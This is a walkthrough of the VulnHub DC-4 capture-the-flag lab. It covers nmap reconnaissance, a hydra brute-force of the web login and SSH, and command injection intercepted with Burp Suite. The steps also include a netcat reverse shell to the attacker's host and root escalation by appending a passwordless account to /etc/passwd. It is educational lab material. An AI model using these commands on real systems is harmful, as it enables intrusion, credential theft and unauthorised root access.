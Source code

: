 # DC: 4
[VulnHub link](https://www.vulnhub.com/entry/dc-4,313/)  
By DCAU

* As with the first 3 iterations of the DC-series, we are first greeted with a login page that requires users to specify both the username and the password:
![](/screenshots/dc-4/loginInitial.jpg)
* Common login credentials such as `admin:admin` and `admin:password` do not work.
* Run `nmap 10.0.2.*`, where we find 5 live hosts:
![](/screenshots/dc-4/nmapScan.jpg)
* After eliminating our own IP address and our router gateway IP address, it is very likely that the vulnerable VM's IP address is `10.0.2.10`.
* The host is running 2 services, SSH at port 22 and HTTP at port 80. Both ports are found to be open.
* Run `nmap -p- -A 10.0.2.10`:
![](/screenshots/dc-4/hostFullScan.jpg)
* Looking at the services which the vulnerable VM is running, we can see an nginx web server running on port 80 (which is open). This is the first time that we have encountered a non-Apache web server - not that it makes any difference (I think?).
* Opening `http://10.0.2.10` reveals a site with only an "Admin Information Systems Login":
![](/screenshots/dc-4/siteWebServer.jpg)
* Common login credentials such as `admin:admin` and `admin:password` do not work. Moreover, any invalid attempts does not result in an error message being displayed. Instead, the 2 user input text fields are simply emptied. The page is also changed to `http://10.0.2.10/index.php`.
* The page source does not reveal anything of interest, and the robots.txt page does not exist (404 Not Found).
* The page is running on php - perhaps it could be a WordPress site? I tried to load `http://10.0.2.10/wp-login.php`, but was greeted with the message "No input file specified.". Hmm, interesting. It seems to be expecting a file at the login page?
* I attempted a `wpscan` command against the web server but it did not detect the site's CMS as WordPress.
* Running `whatweb -v 10.0.2.10` also did not tell us what CMS the site was on, except information that we had already known before (e.g. nginx version):
![](/screenshots/dc-4/whatweb.jpg)
* Note: `whatweb` is a web scanner that identifies technologies used by websites.
* Time to find out what other pages or directories that we can access from the site - I tried using `uniscan` but it only gave 2 results which renders the same login page that greeted us.
![](/screenshots/dc-4/uniscan.jpg)
* Using `dirbuster`, we did not find out much additional useful information - the only page with 200 OK is what we already know. The rest of the pages attempted lead to either a 403 Forbidden or 302 Redirect.
![](/screenshots/dc-4/dirbuster.jpg)
* Without making much of a headway, I decided that we will use a dictionary attack against the login page, using `hydra`: `hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.0.2.10 http-post-form '/login.php:username=^USER^&password=^PASS^:S=Logout'`:
![](/screenshots/dc-4/hydraAdmin.jpg)
* I had several issues with running the command here, though I had already used it in 2 walkthroughs previously. The first issue was that instead of `login.php`, I was using `index.php` which did not work. I am rather puzzled as to why this is the case because `dirbuster` told us that accessing the former would result in an indirect to the latter. Accessing the former itself would also result in the same.
* Note: We discovered earlier that accessing `10.0.2.10` itself did not result in a redirect to `http://10.0.2.10/index.php`. Only an invalid login attempt did so. When logging in with `admin:happy`, entering the set of credentials brought us again to `index.php` first, where we had to enter the set of credentials again. So, I decided to head straight to `index.php` and enter the set of credentials, but again I was forced to enter it a second time. Heading straight to `login.php` also required me to log in twice. The mystery behind what puzzled me is still not solved, I guess.
* Note2: Perhaps having to log in twice is a mechanism to defeat brute-force/dictionary attacks, but `login.php` somehow works.
* The second issue was that I did not know what to expect upon a successful log in, i.e. what texts there would be. I was trying out words such as Welcome, and instead of Logout, I was trying Log Out (with a whitespace) instead.
* Note that we also had to make a guess with the username `admin` because an invalid login did not reveal to us if the attempted username even existed.
* This is the page that greets us after logging in:
![](/screenshots/dc-4/adminLogin.jpg)
* Note: There are not a lot of words in the page, so your word/phrase that detects for a successful login in your `hydra` command must have been accurate.
* Clicking on `Command` brings us to a list of 3 commands which we can run:
![](/screenshots/dc-4/systemToolsCommands.jpg)
* Running each of the command is equivalent to running the respective versions of the command in Unix:
![](/screenshots/dc-4/systemToolsCommandsExecution.jpg)
* Looking at the `ls -l` command that was executed, we see that the owner and group of all of the listed files and directories is `root`.
* Since we appear to be executing commands from a GUI, I am guessing that we would be able to post our own requests (i.e. commands).
* This is the first time that I am using Burp Suite - we have to first configure the Firefox browser's proxy settings under Network settings, and ensure that both the browser and the tool are using the same IP address (e.g. 127.0.0.1) and port (e.g. 8080) for the interception by Burp Suite to work.
* We will now capture and intercept the request when we execute `ls -l`:
![](/screenshots/dc-4/burpSuitels.jpg)
* We see that the `ls -l` command is sent under the `radio` parameter.
* Since we are intercepting the request, let us now modify the command string to confirm the fact that we are actually sending commands to the web server. I have changed it to `pwd`, before pressing `Forward` to find out what our current working directory is:
![](/screenshots/dc-4/burpSuitepwd.jpg)
* So indeed it appears that we are able to send our own commands! We are currently at `/usr/share/nginx/html`.
* We will attempt to get a reverse shell through a connection using `nc 10.0.2.15 1234 -e /bin/sh` on the web server, and `nc -v -l -p 1234` in our own Kali VM terminal to catch the connection:
![](/screenshots/dc-4/burpSuitenc.jpg)
* Note: `10.0.2.15` is my Kali VM's IP address. Use `ifconfig` to find out yours.
* `whoami` reveals that we are `www-data` as expected.
* Run `python -c 'import pty; pty.spawn("/bin/bash")'` to spawn our interactive TTY shell.
* Next, I ran `find / -user root -perm -4000 -print 2>/dev/null` to search for setuid binaries which we could possibly exploit, but nothing quite stood out to me:
![](/screenshots/dc-4/setuidBinaries.jpg)
* I looked into the `/etc/passwd` to find out if there was useful information that we could extract, and found that there were 3 users that we did not know before (`charles`, `jim` and `sam`):
![](/screenshots/dc-4/etcPasswdUserList.jpg)
* Heading to the `/home` directory, we found 3 directories belonging to these users respectively:
![](/screenshots/dc-4/homeDirectory.jpg)
* There is not much that is of interest to us in the respective directories as shown:
![](/screenshots/dc-4/homeDirectoryContents.jpg)
* `test.sh` seems cryptic:
![](/screenshots/dc-4/testScript.jpg)
* The only other file that caught my attention is `old-passwords.bak`, which has a wordlist of 252 lines:
![](/screenshots/dc-4/oldPasswords.jpg)
* The wordlist could contain the password to user `jim`, since it was found under his directory.
* We will next attempt a dictionary attack on the 3 users with `hydra` once again. I used Burp Suite to download the wordlist by changing the request parameters to `radio=cat /home/jim/backups/old-passwords.bak&submit=Run`:
![](/screenshots/dc-4/oldPasswordsBak.jpg)
* Run `hydra -L users.txt -P passwords.txt 10.0.2.10 ssh`, where we see that a set of credentials belonging to `jim` has been found:
![](/screenshots/dc-4/hydraJim.jpg)
* Note: `users.txt` consist of charles, jim and sam, while `passwords.txt` contains the wordlist from `old-passwords.bak`. Since we are finding the credentials for ssh, including it in the command will simply do the trick.
* The password `jibril04` was found towards the end of the user list, hence it took awhile for `hydra` to give us our result.
* We log in with `jim:jibril04`, running `ssh jim@10.0.2.10`, and we are in:
![](/screenshots/dc-4/sshJim.jpg)
* There was a file mbox that we did not have permissions to open previously:
![](/screenshots/dc-4/jimmbox.jpg)
* The file contains an email from `root` to `jim`, with a test message. I was pretty much stuck at this point in time because I was not quite sure what the mail was telling us. I did not find any information from the mail itself that appeared useful.
* I found out from other walkthroughs that we should check out `/var/mail`, because a mail server is likely to be (or had been) running given that an email was sent. Interesting, I have learnt something new here.
* There is only 1 file `jim` in the directory. Opening it, we see the password for user `charles` in an email sent from him:
![](/screenshots/dc-4/jimMail.jpg)
* Now we have one more set of credentials: `charles:^xHhA&hvim0y`.
* We can either exit from `jim` and enter `ssh charles@10.0.2.10`, or continue with `jim` and run `su charles`:
![](/screenshots/dc-4/sshCharles.jpg)
* There are no noteworthy files in charles' home directory, so we will have to think of a way to escalate our privileges.
* I recalled in dc-2 that besides the command that we used earlier to find setuid binaries (but to no avail), we could also run `sudo -l` to find out what commands we can run as root in the current capacity:
![](/screenshots/dc-4/sudoCommands.jpg)
* It turns out that we can run `/usr/bin/teehee` as root.
* The confusion that I had was that I did not know exactly what `teehee` did. I ran the file and found that whatever I typed was repeated back to me. I typed in various commands but to no avail.
* I ran `strings teehee` and found a whole lot of text within the file. I had also found that we could run `./teehee --help` to find out what it was exactly doing:
![](/screenshots/dc-4/teeheeHelp.jpg)
* After digesting what it all meant, I ran `sudo teehee -a /etc/passwd`, before entering `fakeroot::0:0:::/bin/bash`, and then terminating the program.
![](/screenshots/dc-4/addRootAccount.jpg)
* The idea here was to make use of the ability of teehee to append to any file, and then add our own account (fakeroot in this case) with root privileges to `/etc/passwd`. The entry that I added was crafted with reference to root's entry. Essentially, no password is needed to access the account, and it will run `/bin/bash` upon login.
* Run `su fakeroot` and volia, we have our root privileges:
![](/screenshots/dc-4/suFakeRoot.jpg)
* Note: Exiting as user charles and running `ssh fakeroot@10.0.2.10` still requires a password. I pressed the Enter key with entering any password, but to no avail. **Why is a password still required?**
* Opening up `flag.txt`, we have come to the end of this challenge!
![](/screenshots/dc-4/flag.jpg)

# Concluding Remarks
Despite the fact that this is the fourth challenge in the DC-series, the author @DCAU7 has made each challenge unique in its own rights. As usual, I have learnt tons!
1. Learnt how to use Burp Suite to intercept and modify requests.
2. Had more practice on using `hydra` (which I definitely needed).
3. Learnt about `/var/mail` which is related to mail servers.
4. Learnt to get root privileges without having to eventually log in as `root`.
5. Reinforced previous concepts and methods such as `sudo -l`.

# Other walkthroughs visited
1. https://s1gh.sh/vulnhub-dc-4/